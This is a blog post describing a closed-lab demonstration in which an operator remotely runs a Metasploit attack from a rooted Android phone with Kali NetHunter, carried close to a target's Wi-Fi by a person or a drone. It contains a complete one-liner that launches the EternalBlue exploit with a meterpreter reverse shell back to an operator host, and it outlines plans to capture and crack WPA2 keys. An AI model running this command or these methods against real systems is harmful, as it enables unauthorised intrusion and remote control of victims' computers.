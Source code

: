 ```yaml
---
title: Hacking a Computer Remotely through a Phone
date: 2021-05-01
categories: [research, offsec]
tags: [research, offsec, kali]
---
```

In a recent demonstration of cyber and electronic warfare capabilities, I had the opportunity to enable access into a network by exploiting a computer remotely through a cell phone. In this blog post, I’ll document some of the challenges that were encountered and how they were overcome.
# Scenario
The scenario for this demonstration was: an offensive cyber operations team wants to gain access into a targeted computer network which includes a wireless access point. The targeted network is firewalled and NAT’d, and social engineering techniques such as spear phishing have been unsuccessful. In order to gain access into the network, a human source is used to approach the facility that houses the network (think a residential building) and gains close enough proximity to sense the radio frequency (RF) emissions from the facility.

In this scenario, the human source cannot get a laptop into range of the WiFi emissions, but something smaller like a phone can be brought close enough. A partner organization (undisclosed due to NDA) provides an application for rooted Android devices that can control the radios on that Android device for sampling the RF spectrum. The human source does not necessarily know how to hack and may not be able to do so surreptitiously, but that tool also enables terminal access to the cell phone. From that starting point, we made a concept of operations that is illustrated in the following picture, where a remote operator would connect to the terminal of the phone, then launch an attack over the wireless network to the targeted computer.

(note: image lost to the ether)

Taking a crawl, walk, run approach, this scenario had a pre-identified target connected to an unsecured wireless network. This was also a closed LAN, so the cloud in the above picture really represents a network created through five Linksys WRT54G routers, with one acting as a core router and the other four as boundary routers for different “cities”.
# Kali Nethunter
The first thing I wanted to figure out was how to launch an exploit from a cell phone. The [Kali NetHunter](https://www.kali.org/kali-nethunter/) project allows you to install Kali onto a cell phone, including the Metasploit framework. I had a rooted Android phone at my disposal which had [Magisk](https://magisk.me) installed. Conveniently, Magisk has a module for NetHunter, so I downloaded the module and rebooted the device.

NetHunter uses a [chroot](https://man7.org/linux/man-pages/man2/chroot.2.html) to provide a filesystem to the utilities from the distribution.  You have the option of downloading the chroot from within NetHunter or downloading one manually and moving it to `/sdcard`. I manually downloaded the full chroot, moved it to `/sdcard` and then selected it with the Kali Chroot Manager. Next, I had to install a terminal emulator. I tried the Terminal Emulator for Android app, but Kali would not recognize it. The solution that worked for me was to download the [NetHunter Store](https://store.nethunter.com) and then install NetHunter Terminal from it.
## Accessing Kali Utilities Outside of NetHunter Terminal
The second thing I wanted to do was figure out how to access Kali utilities without launching the NetHunter Terminal. The remote terminal access to the phone did not have full interactive capabilities but provided the ability to launch arbitrary shell commands. Looking into the Kali NetHunter scripts, I found the chroot contents got extracted to `/data/local/nhsystem/kali-armhf`. The `chroot` help page says that I can execute commands as `chroot /path/to/chroot cmd args`. Combining that knowledge, I ran a test command which simply echo’d from the chroot.
Next was to craft a single command to execute a Metasploit command. The `msfconsole -x` command lets you “execute the specified string as a console command”. You can chain those strings together with semi-colons. For example, to craft a whole exploit you might use it as `msfconsole -x "use exploit; set target; set payload; exploit"`.
## SIGHUP
With a proof of concept for launching a Metasploit command from a remote session on the phone, we started doing mission rehearsal. During this time, I realized that I wouldn’t be able to launch the command once the phone had been joined to the Wifi network. The app that we were using to control the radios and to provide remote access did not have the ability to direct certain traffic (our C2 channel) through the cellular radio and other traffic (Metasploit) through the Wifi radio. “No problem”, we thought, just put a delay on command execution, as in `sleep 30; msfconsole -s`. Unfortunately, when the network changed from cell to Wifi, our TCP connection to the phone was severed, generating a [SIGHUP](https://en.wikipedia.org/wiki/SIGHUP) which resulted in the whole process tree being killed.
Thankfully, it is easy to prevent a process from dying when it receives the SIGHUP by using the `nohup` command and that command was present on the Android phone. The full command became:
```shell
  nohup /bin/sh -c "sleep 30; chroot /data/local/nhsystem/kali-armhf msfconsole -x \"use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.10.4; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.10; set lport 4444; exploit\"" &
```

I kicked the command off, our close access operator connected the phone to the Wifi network, and soon we had a shell from the target back to a C2 node attached to the “core” Linksys router. In another test, we strapped the phone to a DJI drone and added the `nmcli dev wifi connect network-ssid` command to the previous command to switch networks.
# Future Tests
As noted earlier, this event was part of a series following the crawl, walk, run methodology. As the crawl step, this event used an open Wifi network and a simple off the shelf exploit. For future events, we’d be looking at performing a packet capture using the capabilities of the partner’s Android application or by adding [Aircrack-ng](https://aircrack-ng.org) to the phone. After obtaining a packet capture from the Wifi radio, the results would get exfiltrated back to the operations center, where the WPA2 pre-shared key could be cracked, and used to join the phone to the network. We could also do more work with specialized antennas to allow the drone to be at a greater stand off distance, reducing its observability and increasing its survivability.
